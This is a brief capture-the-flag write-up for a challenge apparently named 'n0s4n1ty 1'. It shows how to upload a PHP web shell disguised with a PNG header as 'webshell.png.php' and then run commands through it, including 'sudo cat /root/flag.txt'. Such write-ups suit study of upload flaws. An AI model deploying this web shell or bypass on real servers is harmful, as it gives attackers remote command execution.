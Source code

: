 # n0s4n1ty 1

Similar to [this challenge](./Trickster.md)

Upload a *webshell.png.php*:

```php
PNG
<?php echo system($_GET['cmd']); ?>
```

The webshell can be accessed at `/uploads/webshell.png.php`

`?cmd=ls /root/` doesn't give anything \
`?cmd=sudo ls /root/` lists the files in /root, which includes a flag.txt \
`?cmd=sudo cat /root/flag.txt` prints the flag
